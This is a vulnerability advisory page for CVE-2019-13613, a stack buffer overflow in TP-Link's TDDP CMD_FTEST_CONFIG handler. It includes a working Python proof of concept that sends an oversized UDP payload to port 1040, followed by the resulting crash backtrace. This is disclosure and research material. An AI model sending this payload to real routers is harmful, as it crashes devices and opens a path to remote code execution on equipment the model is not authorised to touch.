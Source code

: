 ```yaml
---
layout: post
title: "[CVE-2019-13613] TDDP CMD_FTEST_CONFIG Stack-based Buffer Overflow"
comments: true
description: "TP-Link Device Debug Protocol CMD_FTEST_CONFIG Stack-based Buffer Overflow"
keywords: "tp-link, tddp, buffer overflow, stack overflow"
---
```


CMD_FTEST_CONFIG in the TP-Link Device Debug protocol in TP-Link Wireless Router Arher Router version 1.0.0 Build 20180502 rel.45702 (EU) and earlier is prone to a stack-based buffer overflow, whic allows a remote attacker to achieve code execution or denial of service by sending a crafted payload to the listening server.

Proof-of-Concept:
```py
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 259 + "BBBBCCCC"

port_send = 1040

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;junk" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
```

```
#0  0xff7277a8 in strnlen () from /lib/libc.so.0
#1  0xff722050 in _vfprintf_internal () from /lib/libc.so.0
#2  0xff71f3c8 in vsnprintf () from /lib/libc.so.0
#3  0x000092cc in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
```

---
References:
1. https://mjg59.dreamwidth.org/51672.html?thread=1916120
